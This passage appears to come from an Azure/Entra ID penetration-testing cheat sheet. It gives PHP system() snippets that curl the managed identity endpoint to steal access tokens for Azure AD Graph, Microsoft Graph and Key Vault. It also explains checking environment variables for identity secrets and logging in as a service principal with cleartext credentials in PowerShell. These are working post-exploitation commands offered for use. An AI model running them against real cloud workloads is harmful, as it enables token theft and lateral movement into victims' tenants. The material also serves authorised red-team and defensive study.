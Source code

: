 - Azure AD Graph
```
<?php
  system ('curl "$IDENTITY_ENDPOINT?resource=https://graph.windows.net/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```

- Microsoft Graph
```
<?php
  system ('curl "$IDENTITY_ENDPOINT?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```

- Keyvault
```
<?php
  system ('curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```

## Azure AD Exploitation
## Managed Identity
- Managed identity = Workload identity = Service principals
	- Entra ID Enterprise Applications and App registrations are workload identities
- Application permissions - also called Role assignments. There are two types of permissions:
	- Delegated permissions - Used for Delegated Access (access on behalf of a user). Needs user or admin consent.
	- Application permissions - Used for App-only access (access without a user). Needs admin consent.
	- [Documentation](https://learn.microsoft.com/en-us/entra/identity-platform/permissions-consent-overview)
- Applications permissions are often granted for automation or lazy admins wanting to authenticate with a script.
- Rarely has MFA as it requires Workload Identities Premium licenses for each identity
- Compromise of any overly permissive application would result in access to more resources and roles.

#### Check if server has a managed identity
- print environment variables and check for `IDENTITY_HEADER` and `IDENTITY_ENDPOINT` variables exist.
```
env
```

#### Request access token(s) for managed identity
- See [Requesting access tokens](#Requesting-access-tokens)

#### Authenticate with Service Principal / Managed Identity
- With cleartext credentials.
```
$password = ConvertTo-SecureString '<SECRET>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<ACCOUNT ID>', $password)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant <TENANT ID>
```

